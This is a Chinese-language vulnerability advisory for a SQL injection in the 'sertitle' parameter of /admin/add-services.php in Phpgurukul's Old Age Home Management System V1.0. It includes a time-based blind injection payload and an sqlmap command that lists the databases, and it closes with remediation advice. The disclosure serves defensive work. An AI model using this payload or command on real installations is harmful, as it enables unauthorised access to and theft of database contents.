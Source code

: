 # Phpgurukul 养老院管理系统 V1.0 /admin/add-services.php SQL 注入

# 受影响产品的名称

- 养老院管理系统

## 供应商主页

- https://phpgurukul.com/old-age-home-management-system-using-php-and-mysql/

# 受影响或已修复的版本

## 提交者

- 0xabandon

## 漏洞文件

- /admin/add-services.php

## 版本

- V1.0

## 软件链接

- https://phpgurukul.com/projects/Old-Age-Home-MS-using-PHP.zip

# 问题类型

## 漏洞类型

- SQL 注入

## 根本原因

- 在“养老院管理系统“项目中的“/admin/add-services.php”文件中发现一个 SQL 注入漏洞。导致此问题的原因是攻击者从参数“sertitle”中注入恶意代码，并直接在 SQL 查询中使用，而无需进行适当的清理或验证。这允许攻击者伪造输入值，从而操纵 SQL 查询并执行未经授权的操作。

## 影响

- 攻击者可利用此 SQL 注入漏洞，实现未经授权的数据库访问、敏感数据泄漏、数据篡改、全面系统控制，甚至服务中断，对系统安全和业务连续性构成严重威胁。

# 描述

- 在对 “养老院管理系统 ”进行安全检查时，发现“/admin/add-services.php”文件中存在严重的 SQL 注入漏洞。该漏洞源于 “sertitle”参数的用户输入验证不足，允许攻击者注入恶意 SQL 查询。因此，攻击者可在未经授权的情况下访问数据库、修改或删除数据以及访问敏感信息。需要立即采取补救措施，以确保系统安全和保护数据完整性。

# 利用此漏洞无需登录或授权

# 漏洞详情和 POC

## 漏洞:

- “sertitle”参数

## Payload:

```makefile
Parameter: sertitle (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sertitle=11' AND (SELECT 9461 FROM (SELECT(SLEEP(5)))bvmh) AND 'rKQK'='rKQK&serdes=11&submit=
```

## 以下是使用 sqlmap 工具测试和运行时获得的一些具体信息的截图：

```bash
    sqlmap -u "http://10.20.33.25/oahms/admin/add-services.php" --data="sertitle=11&serdes=11&submit=" --dbs
```

![Image](https://github.com/user-attachments/assets/9dc48aa2-22e7-46c0-ac68-9ae18e796dcf)

# 修复建议

1. **使用准备语句和参数绑定：**
   准备语句可防止 SQL 注入，因为它们将 SQL 代码与用户输入数据分开。使用准备语句时，用户输入的值将被视为纯数据，不会被解释为 SQL 代码。

2. **输入验证和过滤：**
   严格验证和过滤用户输入数据，确保其符合预期格式。

3. **尽量减少数据库用户权限：**
   确保用于连接数据库的账户具有最低必要权限。避免在日常操作中使用具有高级权限的账户（如 “root ”或 “admin”）。

4. **定期安全审计：**
   定期进行代码和系统安全审计，及时发现并修复潜在的安全漏洞。